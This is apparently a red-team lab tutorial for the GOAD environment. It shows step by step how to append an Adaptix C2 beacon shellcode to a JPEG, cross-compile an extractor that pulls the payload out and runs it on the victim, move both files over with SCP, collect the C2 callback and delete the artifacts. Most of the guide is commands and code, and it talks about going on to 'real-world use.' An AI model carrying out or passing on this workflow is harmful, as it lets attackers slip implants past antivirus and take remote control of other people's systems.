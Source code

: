 # **10 Bypassing Windows Defender with hide-payload-in-image**

This guide demonstrates how to use steganographic techniques to hide Adaptix C2 payloads (Or any C2 Payload) inside image files, bypassing Windows Defender detection to maintain persistence on target systems in the GOAD-NHA environment.

> [!WARNING]  
> **OPSEC ALERT: Steganographic Payload Hiding**
> 
> Hiding payloads in image files can bypass signature-based AV, but advanced EDR and SIEM solutions may still detect behavioral anomalies, file size changes, or unusual process execution. Always test in a controlled lab before using in real environments.

---

# **Key Takeaways**

**Steganographic Evasion**

- Payload is hidden in the least significant bits of an image file.
    
- File appears as a normal image, evading basic detection.
    
- Extraction and execution are separated, reducing immediate risk.
    

---

# **Step-by-Step Guide: Bypassing Windows Defender with Image Steganography**

## **1. Prepare hide-payload-in-images Tool**

1. **Clone the repository on Kali**
 
```bash
cd /home/kali/Desktop/payloads
git clone https://github.com/WafflesExploits/hide-payload-in-images.git
cd hide-payload-in-images
```
 
2. **Place your image**
```bash
# Ensure your image is in the payloads directory
cp /path/to/your/aiforall.jpeg /home/kali/Desktop/payloads/aiforall.jpeg
```
3. **Check the original image size**
```bash
ls -l aiforall.jpeg
```

| 📝 **INFO** | Note the file size in bytes—you'll need this value for the extractor configuration (e.g., if `ls -l` shows `6594`, use that number in your code). |
|-------------|------------------------------------------------------------------------------------------------------------------------------------------------|


---

## **2. Generate Payload with Adaptix C2**

1. **Open AdaptixClient** and select your HTTP listener.
    
2. **Generate a new agent:**
    
    - Right-click listener → Generate Agent
        
    - Agent Type: Beacon
        
    - Platform: Windows x64
        
    - Format: shellcode
        
    - Save as `/home/kali/Desktop/payloads/payload.bin`
        

---

## **3. Append Payload to Image**

1. **Navigate to payloads directory**

```bash
cd /home/kali/Desktop/payloads
```

2. **Append the payload**

```bash
cat payload.bin >> aiforall.jpeg
```

3. **Verify new image size**

```bash
ls -l aiforall.jpeg
```

---

## **4. Compile the Payload Extractor**

1. **Navigate to extractor source**

```bash
cd /home/kali/Desktop/payloads/hide-payload-in-images/code/payload-extractor
```

2. **Edit extractor config**
- Open `payload-extractor-from-file.cpp` and update:

```cpp
#define TARGET_FILE_PATH "aiforall.jpeg"
#define ORIGINAL_FILE_SIZE 6594 // Replace with your image's original size
```
        
3. **Compile the extractor**

```bash
x86_64-w64-mingw32-g++ payload-extractor-from-file.cpp -o extracttool.exe
```


---

## **5. Transfer Files from Windows VM to Target**

> **Note:** In this workflow, you use SCP from the Windows VM to the victim, not from Kali.

1. **Copy `aiforall.jpeg` and `extracttool.exe` to the Windows VM** (if not already present).
    
2. **From the Windows VM, use SCP to transfer files to the victim:**

```powershell
scp kali@10.3.99.2:/home/kali/Desktop/payloads/extracttool.exe C:\ludus
scp kali@10.3.99.2:/home/kali/Desktop/payloads/aiforall.jpeg C:\ludus
```
 - Adjust paths and credentials as needed for your environment.
---

## **6. Execute Payload Extraction and Callback**

1. **On the victim machine, navigate to the transfer directory:**

```powershell
cd C:\temp
```
    
2. **Run the extractor:**

```powershell
extracttool.exe
```
3. **Monitor AdaptixClient for a new callback session.**

---

## **7. Validation and Cleanup**

1. **Confirm access via Adaptix C2.**
    
2. **Clean up artifacts:**

```powershell
del C:\temp\extracttool.exe
```
    
3. **Monitor Elastic SIEM for detection events. Maybe add detection rules?**
    

---

# **Tools Used**

- **Adaptix C2:** Payload generation and C2 management
    
- **hide-payload-in-images:** Steganographic payload hiding
    
- **MinGW-w64:** Cross-compiling extractor for Windows
    
- **SCP:** Secure file transfer from Windows VM to target
    
- **cat:** Appending payload to image
    

---

**Summary:**  
This workflow demonstrates how to use steganography and cross-compiled payload extractors to evade Windows Defender and deliver Adaptix C2 agents, with all file transfers initiated from the Windows VM. This method minimizes detection risk during transfer and leverages image files for covert payload delivery. Always validate and tune your workflow in a blue-teamed lab before real-world use.

Subscribe for more no-bs content: [IT Security Labs YouTube](https://www.youtube.com/@ITSecurityLabs)
